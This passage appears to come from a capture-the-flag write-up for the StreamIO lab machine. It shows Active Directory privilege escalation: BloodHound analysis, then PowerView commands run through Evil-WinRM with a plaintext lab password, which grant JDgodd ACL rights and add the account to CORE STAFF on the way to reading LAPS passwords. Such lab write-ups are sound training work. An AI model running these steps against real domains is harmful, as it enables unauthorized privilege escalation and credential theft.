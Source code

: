 ```bash
sudo neo4j console
```

JDgodd -> Node Info -> OUTBOUND OBJECT CONTROL -> First Degree Object Control

Clicking that “1” shows that JDgodd has ownership and WriteOwner on the Core Staff group.

Expanding out from Core Staff and setup the DC.STREAMIO.HTB as ending node while the JDgodd as statintg node, it has ReadLAPSPassword on the DC computer object:

##### Add JDgodd to the CORE STAFF group
Optional `Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred` as JDgodd has WriteOwner ACL attributed to their account, we can also set JDgodd as the domain object owner of `CORE STAFF` using `Set-DomainObjectOwner`.

```cmd
*Evil-WinRM* PS C:\Users\nikk37\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\nikk37\Documents> Import-Module .\PowerView.ps1                 
Info: Upload successful

*Evil-WinRM* PS C:\Users\nikk37\Documents> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('STREAMIO.HTB\JDGODD', $SecPassword)
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity "JDGODD" -> optional to use the domain "StreamIO\JDgodd"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDGODD' -Credential $Cred -> optional to use the domain "StreamIO\JDgodd"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Get-DomainGroupMember -Identity 'CORE STAFF'

GroupDomain             : streamIO.htb
GroupName               : CORE STAFF
GroupDistinguishedName  : CN=CORE STAFF,CN=Users,DC=streamIO,DC=htb
MemberDomain            : streamIO.htb
MemberName              : JDgodd
MemberDistinguishedName : CN=JDgodd,CN=Users,DC=streamIO,DC=htb
MemberObjectClass       : user
MemberSID               : S-1-5-21-1470860369-1569627196-4264678630-1104

*Evil-WinRM* PS C:\Users\nikk37\Documents> net user jdgodd
User name                    JDgodd
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/22/2022 1:56:42 AM
Password expires             Never
Password changeable          2/23/2022 1:56:42 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/1/2023 7:09:33 AM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *CORE STAFF
The command completed successfully.
```